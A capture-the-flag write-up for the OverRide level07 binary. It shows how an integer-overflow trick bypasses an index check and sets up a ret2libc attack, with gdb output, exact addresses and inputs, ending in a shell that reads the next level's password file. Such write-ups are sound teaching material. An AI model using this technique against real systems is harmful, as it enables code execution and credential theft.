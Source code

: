 Running this binary, we get : 

	level07@OverRide:~$ ./level07 
	----------------------------------------------------
	Welcome to wil's crappy number storage service!   
	----------------------------------------------------
	Commands:                                          
		store - store a number into the data storage    
		read  - read a number from the data storage     
		quit  - exit the program                        
	----------------------------------------------------
	wil has reserved some storage :>                 
	----------------------------------------------------

	Input command: 

We can store one number at a time in a given index. There is a security that prevents using any index divisible by 3 though, so index 0, 3, 6, etc..., are unwritable. Also, we can't access environment variables, so we won't be able to store a payload there. The most obvious thing to do is a ret2libc, where we overflow the stack return address with another function, in our case a call to system with /bin/sh as argument.

First, we need to know where we can overwrite the return address. First of all, let's find it by setting a breakpoint at the end of our program and looking at eip :

	(gdb) b *main+718
	Breakpoint 3 at 0x80489f1
	[...]
	Breakpoint 3, 0x080489f1 in main ()
	(gdb) i r
	[...]
	eip            0x80489f1	0x80489f1 <main+718> <-- not this one
	[...]
	(gdb) si
	0xf7e45513 in __libc_start_main () from /lib32/libc.so.6
	(gdb) i r
	[...]
	eip            0xf7e45513	0xf7e45513 <__libc_start_main+243>
	[...]

The second one is the one we want : 0xf7e45513

We can also have a look at the stack by using an easily identifiable number, for instance 238 <=> 0xee (at the index 1 because we can't access 0)

	Input command: store
	Number: 238
	Index: 1

	Breakpoint 3, 0x080486d5 in store_number ()
	(gdb) x/100x $esp
	0xffffd4f0:	0x08048add	0xffffd544	0x00000000	0xf7e2b6c0
	0xffffd500:	0xffffd708	0xf7ff0a50	0x000000ee	0x00000001
	0xffffd510:	0x00000000	0xffffdfdc	0xffffd708	0x080488ef
	0xffffd520:	0xffffd544	0x00000014	0xf7fcfac0	0xf7fdc714
	0xffffd530:	0x00000098	0xffffffff	0xffffd7fc	0xffffd7a8
	0xffffd540:	0x00000000	0x00000000	0x000000ee	0x00000000 <------ here
	0xffffd550:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd560:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd570:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd580:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd590:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5a0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5b0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5c0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5d0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5e0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5f0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd600:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd610:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd620:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd630:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd640:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000

Lets find its address :

	(gdb) x 0xffffd548
	0xffffd548:	0x000000ee

If we keep going a bit further, we can find the eip return value we saw earlier :

	0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd690:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6a0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6b0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6c0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6d0:	0x00000000	0x00000001	0x726f7473	0x00000065
	0xffffd6e0:	0x00000000	0x00000000	0x00000000	0x4cfa9200
	0xffffd6f0:	0xf7feb620	0x00000000	0x08048a09	0xf7fceff4
	0xffffd700:	0x00000000	0x00000000	0x00000000	0xf7e45513 <----- return address
	0xffffd710:	0x00000001	0xffffd7a4	0xffffd7ac	0xf7fd3000
	0xffffd720:	0x00000000	0xffffd71c	0xffffd7ac	0x00000000
	0xffffd730:	0x080482b8	0xf7fceff4	0x00000000	0x00000000
	0xffffd740:	0x00000000	0xfe293c18	0xc92eb808	0x00000000
	0xffffd750:	0x00000000	0x00000000	0x00000001	0x08048510
	0xffffd760:	0x00000000	0xf7ff0a50	0xf7e45429	0xf7ffcff4
	0xffffd770:	0x00000001	0x08048510	0x00000000	0x08048531
	0xffffd780:	0x08048723	0x00000001	0xffffd7a4	0x08048a00
	0xffffd790:	0x08048a70	0xf7feb620	0xffffd79c	0xf7ffd918
	0xffffd7a0:	0x00000001	0xffffd8cc	0x00000000	0xffffd8e8
	0xffffd7b0:	0xffffd8f8	0xffffd90c	0xffffd92f	0xffffd942
	0xffffd7c0:	0xffffd94f	0xffffde70	0xffffde7c	0xffffdec9
	0xffffd7d0:	0xffffdee0	0xffffdeef	0xffffdf07	0xffffdf18
	0xffffd7e0:	0xffffdf21	0xffffdf3a	0xffffdf42	0xffffdf54
	0xffffd7f0:	0xffffdf64	0xffffdf9a	0xffffdfba	0x00000000
	0xffffd800:	0x00000020	0xf7fdb430	0x00000021	0xf7fdb000

Again, we get its address :

	(gdb) x 0xffffd70c
	0xffffd70c:	0xf7e45513

We stored the number ee at index 1, So we can know where is located the return address with a simple substraction : 0x70c - 0x548 = 0x1c4, 452 in decimal. One index can store 4 bytes, so if we divide it by 4 we get index 113. Let's keep in mind that we used index 1 instead of 0, so we need to add 1 to the result, we get the index 114.

Let's try to store something here to see what happens :

	Input command: store
	Number: 1111
	Index: 114
	*** ERROR! ***
	This index is reserved for wil!
	*** ERROR! ***
	Failed to do store command

Of course 114 % 3 = 0, so we can't write in there. However, there is one specific line in store_number that is interesting :

   0x080486c5 <+149>:	shl    $0x2,%eax

Basically, to go from indexes to bytes the binary will byteshift to the left twice (equivalent to multiply by 4).

114 in binary is 1110010, the 32bit repr is 00000000000000000000000001110010

If we byteshift left twice, we get : 00000000000000000000000111001000 (456 in dec, obviously).
But here's the thing : The 2 most significant bytes are removed. That means whatever is stored in them won't have an impact on the final result. Let's take our 114 in 32-bit repr, and add a 1 at the second MSB (to avoid negative numbers). We now get :

	01000000000000000000000001110010

This is equal to 1073741938 in decimal. That means byteshifting twice this number will yield the same result as byteshifting twice 114. By passing this number, we can access the index 114 (note that this number is not divisible by 3 itself, otherwise we still could not access index 114). Let's check it :

	Input command: store
	Number: 1234 
	Index: 1073741938
	Completed store command successfully
	Input command: read
	Index: 114
	Number at data[114] is 1234
	Completed read command successfully
	Input command: quit
	Segmentation fault (core dumped)

	level07@OverRide:~$ dmesg
	[...]
	[24161.934779] level07[3134]: segfault at 4d2 ip 00000000000004d2 sp 00000000ffffd730 error 14 in level07[8048000+1000]

0x4d2 <=> 1234, this way we can sucessfully store anything we want at the index 114.

Now, we just have to find the adresses of system, "/bin/sh", and exit (to gracefully exit the program, because segfaults can be detected).

[source](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)

	(gdb) p system
	$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

	(gdb) p exit
	$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

	(gdb) info proc map
	process 1936
	Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fd8000 0xf7fdb000     0x3000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
	(gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
	0xf7f897ec
	1 pattern found.

Now we need to convert these addresses to decimal and store them using the binary :

system :    0xf7e6aed0 <=> 4159090384
exit :      0xf7e5eb70 <=> 4159040368
/bin/sh :   0xf7f897ec <=> 4160264172

level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cd ../level08
$ cat .pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
